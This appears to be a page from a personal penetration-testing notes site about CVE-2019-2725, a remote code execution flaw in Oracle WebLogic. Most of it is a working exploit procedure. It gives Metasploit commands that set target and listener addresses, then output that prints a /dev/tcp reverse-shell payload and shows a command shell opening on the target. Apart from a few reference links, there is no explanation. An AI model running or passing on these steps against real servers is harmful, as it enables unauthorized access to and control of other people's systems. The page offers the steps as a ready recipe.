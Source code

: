```yaml
---
title : "CVE-2019-2725"
# pre : ' '
description : "Oracle WebLogic WLS9-async Remote Code Execution."
date : 2020-05-06T10:53:14+02:00
# hidden : true
# draft : true
weight : 150
# tags : ['']
---
```


---

## Oracle WebLogic WLS9-async Remote Code Execution

### Exploit

```plain
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

## URL List

- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
- [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)
